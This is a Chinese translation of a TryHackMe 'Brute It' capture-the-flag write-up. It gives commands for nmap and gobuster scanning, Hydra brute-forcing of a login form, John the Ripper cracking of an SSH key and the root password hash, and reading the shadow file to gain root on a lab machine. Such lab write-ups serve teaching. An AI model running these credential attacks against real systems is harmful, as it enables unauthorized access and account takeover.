# try hackme:Brute It-up

> 原文：<https://infosecwriteups.com/tryhackme-brute-it-write-up-8e5a82b4403c?source=collection_archive---------2----------------------->


我们启动[机](https://tryhackme.com/room/bruteit)开始黑吧！！！。

该房间包括以下内容:

*   蛮力
*   哈希破解
*   权限提升

连接到 OpenVPN 网络并部署机器。



初级 CTF 挑战赛

1.  通过 Nmap 扫描，我们可以识别开放的端口。

```
nmap -sC -sV -A <machine-ip>
```



nmap 扫描

2.因为其中一个开放的端口是 HTTP 端口，所以让我们来研究一下。



3.为了识别隐藏的扩展，我们可以使用 Gobuster 工具。

```
gobuster dir -u http://<machine-ip> -w <wordlist>
```



gobuster 扫描结果

4.让我们打开隐藏的扩展。它看起来像一个登录表格。



5.我们可以使用 Hydra 暴力破解 HTTP post 表单。

```
hydra -l admin -P <wordlist> <machine-ip> http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -V
```



6.因为我们得到了登录表单的密码，所以让我们打开它。



7.它看起来像 RSA 私钥，我们有 web 标志。



8.我们可以使用开膛手约翰工具破解 RSA 私钥。

```
ssh2john.py id_rsa > hashjohn hash -wordlist=<wordlist>
```

9.现在我们得到了密码短语。让我们打开 ssh 端口。

```
ssh -i id_rsa john@<machine-ip>
```

10.我们一打开 ssh，就可以看到 user.txt 标志。



11.扩大特权

```
sudo -l
```



12.我们可以使用 cat 来找出用户密码的哈希值。



13.使用开膛手约翰，破解根用户的哈希。将散列存储在一个文件中并破解它。

```
john hash
```

14.切换到根用户。

```
su
```

15.提供 root 密码。



16.砰！！！最后，我们还获得了 root.txt 标志。

做这个挑战很有趣。希望大家学到新东西:)。

通过 [Linkedin](https://www.linkedin.com/in/vishnuram-r/) 和[我的网站](https://vishnuram1999.github.io/)与我联系。